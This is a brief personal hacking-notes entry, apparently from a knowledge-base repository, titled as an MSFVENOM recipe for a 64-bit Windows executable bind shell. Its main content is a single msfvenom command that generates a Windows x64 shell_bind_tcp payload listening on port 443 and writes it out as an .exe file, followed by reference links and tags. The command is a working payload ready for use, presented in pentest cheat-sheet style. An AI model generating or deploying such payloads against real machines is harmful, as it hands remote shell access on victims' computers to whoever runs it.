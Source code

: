# MSFVENOM Windows Binary (.exe) executable 64 Bit (x64) Bind Shell
```bash
msfvenom -p windows/x64/shell_bind_tcp LPORT=443 -f exe -o bind_shell.exe
```

# References
- [20221003150771](/zet/20221003150771/README.md) MSFVENOM Windows Binary (.exe) executable 64 Bit (x64)
- ~/kb/hacking/commands/msfvenom-commands.md

Tags:
    #assorted #command
